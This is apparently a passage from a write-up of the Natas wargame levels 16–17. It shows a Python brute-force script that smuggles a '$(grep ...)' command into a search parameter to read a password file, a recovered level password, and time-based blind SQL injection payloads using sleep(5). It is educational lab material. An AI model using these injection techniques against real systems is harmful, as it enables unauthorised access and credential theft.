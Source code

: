```python
print("The charset used is: " + charset)

print("--------- Guessing char by char ---------")
# Guessing every position in the password string 
# As the password is 32 chars long, the loop only runs 32 times
for i in range(32):
    for char in charset: 
        guess = password + char
        payload = 'lunar' + '$(grep ^' + guess + ' /etc/natas_webpass/natas17)'
        r = requests.get(target, auth = creds, params = {"needle": payload})
        if "lunar" not in r.text:
            password += char
            print(guess.ljust(32, '='))
            break

```

natas17: `XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd`

# Natas 17

One word, painful.

This is the same idea as `natas15`, but this time the result of the query is not displayed to the web page (all the `echo` call are commented out). We need a way to make the query leak information similar to the message of `"This user exists."` in `natas15`.

We can achieve this by doing a time-based SQL injection. This means that we insert a `sleep` call to the SQL query. The query will look something like this:

```sql
SELECT * from users where username="natas18" and password like binary "abcd%" and sleep(5);-- "
```

We add in `sleep(5)` to our SQL query. When there exists a username of `natas18` (which you can verify by removing the `password` checking portion) and the password indeed starts with `abcd`, the query will sleep for 5 seconds. If any of the conditions in the query is wrong, the `sleep(5)` will not be executed, therefore the query will run in a much shorter amount of time. This can be leveraged to guess the password character by character, same as the idea from `natas15`. A Python script can check if the response time of the query is longer than some arbitrary amount. If the time of a certain query is indeed longer, we know for a fact that the characters we are guessing are correct.

We can reuse the same trick in `natas15` to narrow down the character set we need to guess. The SQL query for this should look something like:

```sql
SELECT * from users where username="natas16" and password like binary "%T%" and sleep(5); --"
```

This time, as the gimmick is to use the response time, sometimes the server might not respond quickly or there is congestion in the network, so setting the `sleep` time to be larger will help account for such issues. This can be painful, as setting the time too high will make the solving time really slow, but if we set the `sleep` time too short, the chances of time-related issues will be much higher. 
